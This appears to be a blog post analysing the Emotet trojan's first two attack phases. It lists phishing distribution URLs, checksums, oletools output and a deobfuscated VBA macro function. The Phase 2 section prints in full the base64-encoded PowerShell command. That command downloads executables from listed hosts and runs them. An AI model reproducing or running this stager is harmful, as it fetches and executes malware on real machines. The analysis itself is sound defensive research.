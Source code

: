```yaml
---
title: Emotet malware analysis. Part 1.
description: Analyzing Emotet malware, a trojan that is spread via phishing emails, malicious links and targets individuals, companies and governments.
layout: post
permalink: emotet-malware-analysis-part-1
image: "img/emotet_malware/emotet-malware.jpg"
tags: cyber
categories: Cyber
---
```

This is Part 1 of Emotet malware analysis I'm planning to post. It covers phases 1 and 2 of the attack, specifically phishing and establishing persistence in the infected system. Emotet is spread via phishing emails containing malicious links or attachments, and targets everyone (individuals, companies and governments).

## Phase 1. Malicious email and document.

First phase of the attack starts with a Phishing email. Usually subject, layout, attachments and links are modified periodically by attackers. In this article I'm going to analyze [this sample from VirusTotal](https://www.virustotal.com/#/file/f5e9c63713c7ff968f4958a9b5161e78af05f21493e56555734b89f55b2be24c/detection "Emotet's attachment sample").

[ ![VirusTotal Sample](../img/emotet_malware/virustotal_sample.jpg){:.post_image} ](../img/emotet_malware/virustotal_sample.jpg)

One of Emotet's characteristics is constantly changing content of the phishing emails. Usually these contain a malicious link or attachment. This article covers the sample which was spread using via following links:

|URL|
|---|
|hxxps://www.tenderheartfoundation.org/knqimf/muwcu-xh8fa-vnewt/|
|hxxp://clyckmedia.com/clientes/ylhq8-zg1ue-iibdnyco/|
|hxxp://noithathopehome.com/8brl9if/hldd-m2v2fy-xavkpbbl/|
|hxxp://cllcanada.ca/2010/lmef-jmlr1n-ftkktgp/|
|hxxp://www.smilefy.com/it3fqqo/rnk6-9mm14-fcnp.view/|
|hxxp://cadsupportplus.com/assets/nwi2z-20bew-ffuwbfmt/|
|hxxp://www.sdhjesov.cz/wordpress/papcc-koe6n-lsric.view/|
|hxxp://bigkidneys.com/42QQXOURJ/gf1lm-hmr0c-lnkcfak/|
|hxxp://compraventachocados.cl/css/hgkhx-lin1b-zjkebwycv/|
|hxxp://cruelacid.com/icon/bmza-8dlyf-jemlc/|
|hxxp://ecommercedefinitivo.com.br/cursos/ryyjt-tnxm7-byxukc/|
|hxxp://annual.fph.tu.ac.th/wp-content/uploads/ikvv-lt7rlt-bqcnmly/|
|hxxp://dbtools.com.br/mailer/ezsvr-mqo7i-zgysfrmwr/|
|hxxp://demu.hu/wp-content/2h2z2-errsh-sxwqgscp/|
|hxxp://georgekiser.com/test/z6uwt-r0459s-rqkv.view/|
|hxxp://wdl.usc.edu/wp-includes/zvlp-s69lox-wrkbb.view/|
|hxxp://dictionary.me/js/bbrj3-tq4eh-izxcuhnb/|
|hxxp://duncaninstallation.com/images/u32g-mdxys3-gjcwkz/|
|hxxp://devpro.ro/misc/3wa1-zykhgf-xcjqnfs/|

All URLs above, once accessed, drop a Microsoft Office Document with macros in it.

|Checksum|File type|File Size|
|---|---|---|
|f5e9c63713c7ff968f4958a9b5161e78af05f21493e56555734b89f55b2be24c|MS Word Document|246KB (251904 bytes)|

{% include adsense.html %}

### Analysis.

Based on the result we get by running `file` command against this sample, it looks like this document has 1 page and doesn't contain any words.

```bash
f5e9c63713c7ff968f4958a9b5161e78af05f21493e56555734b89f55b2be24c: Composite Document File V2 Document, Little Endian, 
Os: Windows, Version 6.1, Code page: 1252, Template: Normal.dotm, Revision Number: 1, Name of Creating Application: Microsoft Office Word, 
Create Time/Date: Mon Mar 11 21:32:00 2019, Last Saved Time/Date: Mon Mar 11 21:32:00 2019, Number of Pages: 1, 
Number of Words: 0, Number of Characters: 5, Security: 0
```

Using `Oletools` to get the list of document's objects, 3 macros elements have been found:

```bash
  7:        74 'Macros/PROJECTwm'
  8: M   70540 'Macros/VBA/S1ADDQ1A'
  9: M   14650 'Macros/VBA/YBB1wA'
 10:     49987 'Macros/VBA/_VBA_PROJECT'
 11:      1344 'Macros/VBA/__SRP_0'
 12:       110 'Macros/VBA/__SRP_1'
 13:       436 'Macros/VBA/__SRP_2'
 14:       187 'Macros/VBA/__SRP_3'
 15:       601 'Macros/VBA/dir'
 16: M    9719 'Macros/VBA/mA4QAX4'
 17:      4096 'WordDocument'
```

### Extraction. 

Objects 8, 9 and 16 contain Visual Basic code, thus of higher interest for further analysis.

|Object|Name|Checksum|Size|
|---|---|---|---|
|8|S1ADDQ1A|34ffc69ff37401b965b04fa4f3c1fbcdffab11fd2e34f9e17a8347b70922398b|44KB (44096 bytes)|
|9|YBB1wA|d51c137e3f591a275628e697d2fbb305cc3c630455480508184b45753608d973|8.8KB (8956 bytes)|
|16|mA4QAX4|d2e56d56ced7ed8de5f701a873086c8134e1311dd574a607a45023f38d5ecaf7|5.6KB (5671 bytes)|

Out of all extracted parts of the script, `mA4QAX4` is the _entry point_ and starts the execution once the document is opened. Whole VBS code is obfuscated, as seen in the image below.

[ ![Macros Entry Point](../img/emotet_malware/macros_entry.png){:.post_image} ](../img/emotet_malware/macros_entry.png)

{% include adsense2.html %}

All three parts are dependent on each other and have to be merged, for further analysis. You can find it [HERE](https://www.virustotal.com/gui/file/50536aaf9cc87b6cf5b3fcd1ef5c11f348737ef28f220872bcbdfb56813c68bc/detection "Merged version").

The call chain looks like this:

1. autoopen();
2. iQwUcAAU(param):
  - Creates **Win32_ProcessStartup** class;
  - Creates an object of the class by calling **Create** method;
  - Passes _param_ string as command argument, thus starting the execution;

Value of _param_ consists of concatenated results of following functions: `SQoBUAA`, `vDXBUQ`, `rDCAQQcA`, `pAADAADD`, `k1kGUAB`, `cAABQDw`. All these functions are similar in terms of logic and were easy to de-obfuscate. Below is the _clean_ version of `SQoBUAA`:

```bash
Function SQoBUAA()
On Error Resume Next
jkQBUx = "l -" + "nop" + " -e" + "n" + "c" + " JA" + "BHA" + "G" + "8Aa" + "wB" + "HA" + "E" + "M" + "AN" + "A" + "B" + "B" + "A" + "D" + "QA" + "PQ" + "A" + "oAC"
lBADQoU = "cAe" + "gBf" + "AC" + "cAK" + "w" + "An" + "AEE" + "AWg" + "AnA" + "CsA" + "Jw" + "Br" + "A" + "G8A" + "RAB"
tcoAAAAQ = "B" + "ACc" + "A" + "K" + "Q" + "A7A" + "CQ" + "AU" + "gBf" + "AEE" + "A" + "a" + "w" + "AxA" + "F8"
HAQUxA_ = "AQQ" + "BBA" + "D0" + "Abg" + "BlA" + "Hc" + "ALQ" + "BvA" + "GI" + "Aa" + "gBl" + "AG" + "MAd" + "A" + "AgA" + "E" + "4" + "A" + "Z" + "QB0" + "A" + "C" + "4A" + "VwB" + "lAG"
tUQokAA = "IA" + "Qw" + "Bs" + "AGk" + "AZQ" + "Bu" + "AH" + "Q" + "A" + "O" + "wA" + "kAG" + "k" + "AVQ" + "Bv" + "AF" + "8AR" + "ABB" + "AD" + "0" + "AK" + "AA" + "n" + "A" + "GgA"
cUAAoX = "d" + "AAn" + "ACs" + "AJw" + "B0" + "AH" + "A" + "AOg" + "A" + "vA" + "C8A" + "Yg" + "B" + "pA" + "G" + "U" + "A" + "ZAB" + "l" + "A" + "H" + "I" + "A" + "bQ" + "Bh"
AkQG_A = "A" + "Cc" + "AKw" + "An" + "AG" + "4AL" + "g" + "B" + "uAG" + "UAd" + "AA" + "vAG" + "wA" + "ZQB" + "zAG" + "wA" + "a" + "QBl"
SQoBUAA = jkQBUx + lBADQoU + tcoAAAAQ + HAQUxA_ + tUQokAA + cUAAoX + AkQG_A
End Function
```

## Phase 2. Persistent Powershell.

A base64 encoded powershell script is extracted and set to run at system's startup, by the document macros.

```powershell
powershell -nop -enc JABHAG8AawBHAEMANABBADQAPQAoACcAegBfACcAKwAnAEEAWgAnACsAJwBrAG8ARABBACcA
KQA7ACQAUgBfAEEAawAxAF8AQQBBAD0AbgBlAHcALQBvAGIAagBlAGMAdAAgAE4AZQB0AC4AVwBlAGIAQwBsAGkAZQBuAHQAOwAkAGkAVQBvAF8ARABBAD0AKAA
nAGgAdAAnACsAJwB0AHAAOgAvAC8AYgBpAGUAZABlAHIAbQBhACcAKwAnAG4ALgBuAGUAdAAvAGwAZQBzAGwAaQBlAC8AbAAnACsAJwBMAC8AJwArACcAQABoAH
QAdABwADoALwAnACsAJwAvAG4AaQBzAHMAYQAnACsAJwBuAGIAYQAnACsAJwBjAGcAaQBhACcAKwAnAG4AZwAnACsAJwAuAGMAJwArACcAbwBtAC8AdwBwAC0AY
wBvACcAKwAnAG4AdABlAG4AdAAnACsAJwAvAHgAUgAnACsAJwAzAC8AJwArACcAQAAnACsAJwBoAHQAdAAnACsAJwBwADoALwAnACsAJwAvAGUAcQB1AGkAZABh
AGQAZABlAGcAZQBuAGUAcgAnACsAJwBvAC4AJwArACcAaQB6AHQAJwArACcAYQBjAGEAbABhAC4AdQAnACsAJwBuAGEAbQAuAG0AeAAvACcAKwAnAHcAcAAtAGE
AZABtAGkAbgAvACcAKwAnAFgAUABGAC8AQABoAHQAdABwADoALwAvAHcAdwB3AC4AJwArACcAegAnACsAJwBlAHMAdABlAHYAZQBuAHQAJwArACcAcwAuAGMAbw
AvAHcAcAAtACcAKwAnAGkAJwArACcAbgBjAGwAdQBkAGUAcwAvAEcAJwArACcASgBBACcAKwAnAG8ALwBAAGgAdAB0AHAAJwArACcAOgAvAC8AJwArACcAcwB0A
HkAJwArACcAbABpACcAKwAnAHMAaABsAGEAYgAuAHcAZQBiAHAAaQB4AGEAYgB5AHQAJwArACcAZQAnACsAJwAuAGMAJwArACcAbwBtAC8AdAAnACsAJwBoAGoA
bwB3AHIAawA1ACcAKwAnAGUALwA5AFUARwAvACcAKQAuAFMAcABsAGkAdAAoACcAQAAnACkAOwAkAHYAWgBBAEEAQgA0AD0AKAAnAFEAQwBBAEIAJwArACcAQgB
BAFUAJwApADsAJABKAFUAQQBrAEEAQQAgAD0AIAAoACcANAA4ACcAKwAnADYAJwApADsAJABGAGsAWgBBAEQAWgBVAD0AKAAnAGoAJwArACcANABfAEEAQQBCAE
EAJwApADsAJABtAFEAVQBrAHcARwA9ACQAZQBuAHYAOgB1AHMAZQByAHAAcgBvAGYAaQBsAGUAKwAnAFwAJwArACQASgBVAEEAawBBAEEAKwAoACcALgBlACcAK
wAnAHgAZQAnACkAOwBmAG8AcgBlAGEAYwBoACgAJAByAEIAQQBCAEQAbwAgAGkAbgAgACQAaQBVAG8AXwBEAEEAKQB7AHQAcgB5AHsAJABSAF8AQQBrADEAXwBB
AEEALgBEAG8AdwBuAGwAbwBhAGQARgBpAGwAZQAoACQAcgBCAEEAQgBEAG8ALAAgACQAbQBRAFUAawB3AEcAKQA7ACQAQwBYAGsAQQBBADQAQQA9ACgAJwBWADQ
AQgBBACcAKwAnAEEAawBBACcAKQA7AEkAZgAgACgAKABHAGUAdAAtAEkAdABlAG0AIAAkAG0AUQBVAGsAdwBHACkALgBsAGUAbgBnAHQAaAAgAC0AZwBlACAANA
AwADAAMAAwACkAIAB7AEkAbgB2AG8AawBlAC0ASQB0AGUAbQAgACQAbQBRAFUAawB3AEcAOwAkAG4ARABBAEEAdwBvAFgAPQAoACcAcwAnACsAJwBvAEEAeABBA
EQAJwApADsAYgByAGUAYQBrADsAfQB9AGMAYQB0AGMAaAB7AH0AfQAkAGMAdwBRAEEAQQBRAHgAPQAoACcARQBCAG8AYwAnACsAJwBBAEEAJwApADsA
```
Once decoded, several URLs pop up which drop phase 3 PE files.

[ ![Decoded powershell](../img/emotet_malware/powershell_decoded.png){:.post_image} ](../img/emotet_malware/powershell_decoded.png)

{% include adsense.html %}

Totally there are 5 different websites, hosting Emotet malware.

|URL|Dropped PE Checksum|Size|
|---|---|---|
|hxxp://biederman.net/leslie/lL/|e76900b9b50306564c415423e0eb28463722b0427186134ba301209b4ed2f440|180KB (183560 bytes)|
|hxxp://nissanbacgiang.com/wp-content/xR3/|5c2fbc0eaae6ccc8342c22325f0aca1e989beec8d578e3fe57722b807a46c773|180KB (183560 bytes)|
|hxxp://equidaddegenero.iztacala.unam.mx/wp-admin/XPF/|bc0d53d74f3f4ef286b4f4caeb8d8b77e32cc17b808dd0de5674842ad713dd72|180KB (183560 bytes)|
|hxxp://stylishlab.webpixabyte.com/thjowrk5e/9UG/|1c06da405051cfc9f68dbb404e338abb90a38db29f86f17e01487ac2c921c05d|251KB (256264 bytes)|
|hxxp://www.zestevents.co/wp-includes/GJAo/|403 HTTP Error|N/A|

## Conclusion.

Looks like the group behind Emotet, haven't focused on heavily obfuscating phase 1 and 2 scripts. Analysis of downloaded samples to follow in Part 2 of this article.